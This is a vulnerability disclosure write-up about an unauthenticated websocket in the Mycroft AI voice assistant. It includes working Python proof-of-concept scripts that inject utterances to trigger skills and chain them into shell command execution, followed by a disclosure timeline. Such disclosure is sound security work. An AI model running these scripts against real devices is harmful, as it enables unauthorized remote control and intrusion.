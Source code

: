 # Getting "Zero Click" Remote Code Execution in Mycroft AI vocal assistant


## Introduction

During my journey contributing to open source I was working with my friend [Matteo De Carlo](https://github.com/portaloffreedom) on an [AUR Package](https://git.covolunablu.org/portaloffreedom/plasma-mycroft-PKGBUILD) of a really interesting project called [Mycroft AI](https://mycroft.ai). It's an AI-powered vocal assistant started with a [crowdfunding campaign](https://www.kickstarter.com/projects/aiforeveryone/mycroft-an-open-source-artificial-intelligence-for) in 2015 and a [more recent one](https://www.indiegogo.com/projects/mycroft-mark-ii-the-open-voice-assistant#/) that allowed Mycroft to produce their Mark-I and Mark-II devices. It's also running on Linux Desktop/Server, Raspberry PI and will be available soon™ on [Jaguar F-Type](https://www.youtube.com/watch?v=6GHmzbXp_jY) and [Land Rover](https://mycroft.ai/blog/mycroft-welcomes-jaguar-land-rover-new-investor/)

## Digging in the source code

While looking at the [source code](https://github.com/MycroftAI/mycroft-core) I found an interesting point: [here](https://github.com/MycroftAI/mycroft-core/blob/1f4c98f29ceb6a7981474f1620441e43aa364d00/mycroft/messagebus/service/main.py#L28-L57)

```python
...
host = config.get("host")
port = config.get("port")
route = config.get("route")
validate_param(host, "websocket.host")
validate_param(port, "websocket.port")
validate_param(route, "websocket.route")

routes = [
        (route, WebsocketEventHandler)
]
application = web.Application(routes, **settings)
application.listen(port, host)
ioloop.IOLoop.instance().start()
...
```

it defines a websocket server that uses to get instructions from the remote clients (like the [Android one](https://github.com/MycroftAI/Mycroft-Android)). The settings for the websocket server are defined in [mycroft.conf](https://github.com/MycroftAI/mycroft-core/blob/aa594aebea99eebd0109ad013b71a2210f2b72f4/mycroft/configuration/mycroft.conf#L111-L117)

```json
// The mycroft-core messagebus' websocket
  "websocket": {
    "host": "0.0.0.0",
    "port": 8181,
    "route": "/core",
    "ssl": false
},
```

So there is a websocket server that doesn't require authentication that by default is exposed on `0.0.0.0:8181/core`. Let's test it 😉

```python
#!/usr/bin/env python

import asyncio
import websockets

uri = "ws://myserver:8181/core"
command = "say pwned"

async def sendPayload():
    async with websockets.connect(uri) as websocket:
        await websocket.send("{\"data\": {\"utterances\": [\""+command+"\"]}, \"type\": \"recognizer_loop:utterance\", \"context\": null}")

asyncio.get_event_loop().run_until_complete(sendPayload())
```

And magically we have an answer from the vocal assistant saying `pwned`!

Well, now we can have Mycroft pronounce stuff remotely, but this is not a really big finding unless you want to scare your friends, right?

{{< figure src="https://media1.tenor.com/images/8a4a99d3bd67ba8d9a025c36edf4a624/tenor.gif" title="WRONG">}}

## The skills system

Digging deeper we can see that Mycroft has a skills system and a default skill that can install others skills (pretty neat, right?)

How is a skill composed? From what we can see from the documentation a default skill is composed by:

- `dialog/en-us/command.dialog` contains the vocal command that will trigger the skill
- `vocab/en-us/answer.voc` contains the answer that Mycroft will pronounce
- `requirements.txt` contains the requirements for the skill that will be installed with `pip`
- `__int__.py` contains the main function of the skill and will be loaded when the skill is triggered

## What can I do now?

I could create a malicious skill that when triggered runs arbitrary code on the remote machine, but unfortunately this is not possible via vocal command unless the URL of the skill is not whitelisted via the online website. So this is possible but will be a little tricky.

### So I'm done?

Not yet. I found out that I can trigger skills remotely and that is possible to execute commands on a remote machine convincing the user to install a malicious skill. I may have enough to submit a vulnerability report. But maybe I can do a bit better...

## Getting a remote shell using default skills

We know that Mycroft has some [default skills](https://github.com/MycroftAI/mycroft-skills) like `open` that will open an application and others that are whitelisted but not installed. Reading through to the list, I found a really interesting skill called `skill-autogui`, whose description says `Manipulate your mouse and keyboard with Mycroft`. **We got it!**

Let's try to combine everything we found so far into a PoC:

```python
#!/usr/bin/env python

import sys
import asyncio
import websockets
import time


cmds = ["mute audio"] + sys.argv[1:]
uri = "ws://myserver:8181/core"


async def sendPayload():
    for payload in cmds:
        async with websockets.connect(uri) as websocket:
            await websocket.send("{\"data\": {\"utterances\": [\""+payload+"\"]}, \"type\": \"recognizer_loop:utterance\", \"context\": null}")
            time.sleep(1)

asyncio.get_event_loop().run_until_complete(sendPayload())
```

Running the exploit with `python pwn.py "install autogui" "open xterm" "type echo pwned" "press enter"`  allowed me to finally get a command execution on a Linux machine.

{{< figure src="https://raw.githubusercontent.com/Nhoya/MycroftAI-RCE/master/PoC.gif" title="PoC">}}

## _Notes_

- `open xterm` was needed because my test Linux environment had a DE installed, on a remote server the commands will be executed directly on TTY so this step is not nesessary.
- The skill branching had a [big change](https://mycroft.ai/blog/skill-branching-18-02/) and now some skills are not (yet) available (autogui is one of them) but this is not the real point. Mycroft has skills to interact with domotic houses and other services that can still be manipulated (the lack of imagination is the limit here). The vulnerability lies in the lack of authentication for the ws.

## Affected devices

    All the devices running Mycroft <= ? with the websocket server exposed (Mark-I has the websocket behind a firewall by default)

## Timeline

- 08/03/2018 Vulnerability found
- 09/03/2018 Vulnerability reported
- 13/03/2018 The CTO answered that they are aware of this problem and are currently working on a patch
- 06/06/2018 The CTO said that they have no problem with the release of the vulnerability and will add a warning to remember the user to use a firewall `¯\_(ツ)_/¯`
- 09/06/2018 Public disclosure



